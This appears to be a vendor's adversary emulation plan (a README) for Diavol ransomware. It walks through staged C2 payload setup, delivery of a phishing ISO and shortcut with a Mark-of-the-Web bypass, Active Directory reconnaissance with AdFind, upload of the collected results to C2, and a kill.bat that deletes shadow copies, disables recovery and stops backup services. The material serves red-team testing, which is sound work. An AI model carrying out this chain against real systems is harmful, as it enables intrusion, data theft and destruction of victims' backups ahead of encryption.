 # Diavol Ransomware Adversary Emulation Plan

This threat is based on The DFIR Report post on December 13, 2021: https://thedfirreport.com/2021/12/13/diavol-ransomware/

This is a multi-stage threat that requires multiple SCYTHE campaigns for end-to-end execution. The initial access procedures leverage multiple defense evasion steps that would be wise to test in your enviornment.

## Automated Emulation with SCYTHE
### Diavol Stage 0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1, 2, and Stage 3 before execution
10. Follow steps for preparing initial access

### Diavol Stage 1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/Diavol

### Diavol Stage 2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/Diavol

### Diavol Stage 3
1. Create a new campaign `DiavolStage3` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage3
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `uvvfvnnswte.dll`
6. Upload the `uvvfvnnswte.dll` to the VFS under VFS:/shared/Diavol

### Initial Access
1. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system. Note we are using the Folder2Iso project to create the ISO.
2. Put the SCYTHE DLL in the Folder2Iso of the working directory.
3. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
4. Open a Windows command prompt and cd to the working directory.
5. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it.
6. Zip the ISO and call it `new-documents-2005.zip`
7. Upload the zip file to Microsoft OneDrive and copy the link.
8. Send a phishing email with the link to the Microsoft OneDrive zip file. 
9. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

## Manual Emulation

### Diavol Stage 0
1. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system. Note we are using the Folder2Iso project to create the ISO.
2. Put the SCYTHE DLL in the Folder2Iso of the working directory.
3. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
4. Open a Windows command prompt and cd to the working directory.
5. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it.
6. Zip the ISO and call it `new-documents-2005.zip`
7. Upload the zip file to Microsoft OneDrive and copy the link.
8. Send a phishing email with the link to the Microsoft OneDrive zip file. 
9. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.
10. Perform process injection into msedge to drop Diavol Stage 1.

### Diavol Stage 1
```
delay --time 900
loader --load run
run net group /domain
run net group /domain "Domain Admins"
run net group "Domain Computers" /domain
run net localgroup administrators
run net view /all
run nltest /domain_trusts /all_trusts
delay --time 6000
loader --load downloader
downloader --src "VFS:/shared/Diavol/tfpkuengdlu.dll" --dest "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll"
run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll",EnterDll
controller --shutdown
```

### Diavol Stage 2
Create adf.bat and upload to VFS:/shared/Diavol/adf.bat

```
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=person)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad-users.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "objectcategory=computer" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_computers.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=organizationalUnit)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_ou.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -sc trustdmp > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_trustdmp.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -subnets -f (objectCategory=subnet) > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_subnet.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=group)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_group.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -gcb -sc trustdmp > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_trustdmp2.txt
```
In the shell:
```
loader --load run
run ipconfig /all
run net user USER /domain
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol"
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol\adfind"
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol\adfind\results"
loader --load downloader
downloader --src "VFS:/shared/Diavol/adf.bat" --dest "%USERPROFILE%\Desktop\Diavol\adfind\adf.bat"
downloader --src "https://www.joeware.net/downloads/files/AdFind.zip" --dest "%USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip"
run cmd /c powershell -Command Expand-Archive %USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip -DestinationPath %USERPROFILE%\Desktop\Diavol\adfind\
run cmd /c "start %USERPROFILE%\Desktop\Diavol\adfind\adf.bat"
delay --time 600
run powershell Compress-Archive "%USERPROFILE%\Desktop\Diavol\adfind\results\" "%USERPROFILE%\Desktop\Diavol\adfind\adf.zip
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\Diavol\adfind\adf.zip"
run cmd /c rmdir /Q /S "%USERPROFILE%\Desktop\Diavol\adfind"
downloader --src "VFS:/shared/Diavol/uvvfvnnswte.dll" --dest "%USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll"
run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll",EnterDll
controller --shutdown
```

### Diavol Stage 3
```
loader --load run
run net group "Domain Admins" /domain
run whoami
run nslookup
run ipconfig /all
run systeminfo
run tasklist
run net group "Enterprise admins" /domain
run net localgroup administrators
run whoami /all
run net use
run query user

```

### Diavol Stage 4
Create kill.bat and upload to VFS:/shared/Diavol/kill.bat
```
sc  config "Netbackup Legacy Network service" start= disabled
bcdedit  /set {default}
bcdedit  /set {default} recoveryenabled No 
vssadmin.exe  Delete Shadows /all /quiet
wmic.exe  Shadowcopy Delete
net  stop "Zoolz 2 Service" /y
net  stop "Veeam Backup Catalog Data Service" /y
net  stop "Symantec System Recovery" /y
net  stop "SQLsafe Filter Service" /y
net  stop "SQLsafe Backup Service" /y
net  stop "SQL Backups" /y
net  stop "Acronis VSS Provider" /y
net  stop VeeamDeploySvc /y
net  stop BackupExecVSSProvider /y
net  stop BackupExecRPCService /y
net  stop BackupExecManagementService /y
net  stop BackupExecJobEngine /y
net  stop BackupExecDeviceMediaService /y
```
Create README_FOR_DECRYPT.txt and upload to VFS:/shared/Diavol/README_FOR_DECRYPT.txt
```

```